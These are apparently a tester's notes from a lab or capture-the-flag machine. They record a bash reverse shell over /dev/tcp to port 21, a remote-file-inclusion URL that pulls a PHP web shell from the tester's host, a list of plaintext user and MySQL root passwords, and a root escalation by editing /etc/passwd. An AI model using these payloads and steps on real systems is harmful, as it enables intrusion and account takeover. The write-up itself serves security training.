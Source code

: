 #### ++ INFO ++
-> After numerous failed attempts to get a reverse shell in RFI vulnerability, we discovered that the server filter the connection to unknown ports, so we used port 21:
	Payload used: `/bin/bash -i >& /dev/tcp/192.168.45.190/21 0>&1`
-> In `/var/www/html/db.php` we found mysql connection
#### ++ USERS ++
	michael:HockSydneyCertify123
	josh:MobilizeHissSeedtime747
	serena:OverallCrestLean000

#### ++ CREDENTIALS ++
	root:MalapropDoffUtilize1337 (mysql connection - db: SimplePHPGal, host: 127.0.0.1)
	michael:HockSydneyCertify123 (lateral movement)
#### ++ RFI ++
	https://www.exploit-db.com/exploits/48424
	With this POC (we found it by fuzzing too) we found url /image.php?img= vulnerable to RFI
	URL (+python server): http://192.168.222.58/image.php?img=http://192.168.45.190/simple-php-shell.php&cmd=id
	
#### ++ Priv Esc ++
	Modify /etc/passwd file removing x (password stored in shadow file) from user root